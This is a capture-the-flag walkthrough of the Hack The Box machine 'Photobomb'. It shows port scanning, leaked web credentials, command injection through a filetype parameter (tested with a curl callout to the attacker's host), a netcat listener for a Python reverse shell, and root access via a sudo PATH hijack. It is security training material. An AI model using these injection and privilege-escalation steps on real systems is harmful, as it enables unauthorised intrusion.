

# Inital scan
I started by joining the machine and started nmap using ***-sC*** flag to run default scripts and ***-sV*** to retrieve the version number of the softwares running on the machine
```
karim@alpacino:~/Desktop/htb/photobomb$ nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 06:47 EET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
I found 2 ports running which are **22** wich is running **SSH** and port **80** which is running http and its redirecting me to http://photobomb.htb/ so added photobomb.htb to my **/etc/hosts/** file and visited the website and I found a static page with a link to another website

there was a link redirects me to printer directory but it requires a username and a password 

and if I type something like admin:admin I get a **401 # Authorization Required** error so returned back and viewed the source code and found some credentials photobomb.js file


The credentials are ***pH0t0:b0Mb!*** and if you just visit the link you will be able to access the printer dircetory which is basically a photo gallery

There is a feature for downloading the photos from the website so I tried to download an image and I captured the request using burp suite

# Initial access
Firstly I fired an http server using python
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
so I tried command injection in all parameters using the following command and it worked in the filetype parameter
```
curl $YOUR_IP
```
and I got a request in my python http server
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [07/Feb/2023 07:13:34] "GET / HTTP/1.1" 200 -
10.10.11.182 - - [07/Feb/2023 07:14:05] "GET / HTTP/1.1" 200 -
```
So I tried getting a reverse shell using python and I am using the [pentest monkey cheatsheet](https://pentestmonkey.net/cheat-sheet) and before that I sat up a netcat listner
```
karim@alpacino:~/Desktop/htb/photobomb$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
and I injected the python reverse shell in the filetype parameter

and I got a reverse shell with **wizard** user 

So I went to my home directory and found user.txt file and I was able to read it.
# Privilage Escalation
I tried to run sudo -l to find the command that I am able to run using sudo without using password
```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So you can see that I can run cleanup.sh file using sudo without requiring a password
So I used cat command to show the contents of the file
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
you can see that the file is using find and cd command without specifying the full path so we can exploit it by changing the path variable and you can read [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) to be familier with this method
first we will make two file which are find and cd with the contents /bin/bash and give it the right permissions and run cleanup.sh file using sudo with the path changed to tmp and that't where we put our find and cd files and we got root
```
wizard@photobomb:/tmp$ echo "/bin/bash" > find
wizard@photobomb:/tmp$ echo "/bin/bash" > cd 
wizard@photobomb:/tmp$ chmod +x cd
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```
